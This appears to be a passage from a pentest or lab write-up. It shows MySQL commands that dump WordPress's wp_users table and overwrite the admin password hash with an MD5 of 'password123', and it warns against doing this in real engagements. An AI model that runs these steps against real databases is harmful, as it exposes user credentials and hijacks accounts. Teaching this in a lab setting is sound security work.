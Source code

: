 ![](.gitbook/assets/image-20230424123437314.png)

```bash
show databases;
use wordpress;
show tables;
select * from wp_users;
```

![](.gitbook/assets/image-20230424124316970.png)

- Change `admin` WordPress user's password

> ❗ **DO NOT Change passwords in a real pentest**

```bash
UPDATE wp_users SET user_pass = MD5('password123') WHERE user_login = 'admin';
```
